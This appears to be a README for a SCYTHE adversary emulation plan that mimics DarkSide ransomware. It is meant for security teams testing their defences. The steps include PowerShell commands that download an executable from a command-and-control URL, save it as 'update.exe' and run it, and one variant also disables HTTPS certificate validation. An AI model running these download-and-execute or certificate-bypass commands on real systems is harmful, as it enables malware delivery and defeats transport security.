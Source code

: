 # DarkSide Ransomware Adversary Emulation Plan

This threat is based on CyberReason's Cyber Threat Intelligence: https://www.cybereason.com/blog/cybereason-vs-darkside-ransomware

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/DarkSide/DarkSide_scythe_threat.json
2. Download the Virtual File System (VFS) files under DarkSide/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/DarkSide
4. Ensure HTTP Relay is running on your SCYTHE server.
5. Create a new campaign, selecting HTTP, and ensuring the communication options match your HTTP Relay.
6. Import from Existing Threat: DarkSide
7. Launch Campaign
8. Click More Actions and copy the URL for the desired EXE. 
9. In the target system, run this PowerShell command with the respective URL: powershell -Command "(New-Object Net.WebClient).DownloadFile('<SCYTHE EXE URL>','C:\Users\Public\update.exe')"
10. Execute update.exe

Note, to get around HTTPS certificate validation issues:
- Open a PowerShell command prompt
- PS C:\Users\LocalUser> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
- PS C:\Users\LocalUser> (New-Object Net.WebClient).DownloadFile('<SCYTHE EXE URL>','C:\Users\Public\update.exe')
- PS C:\Users\LocalUser> C:\Users\Public\update.exe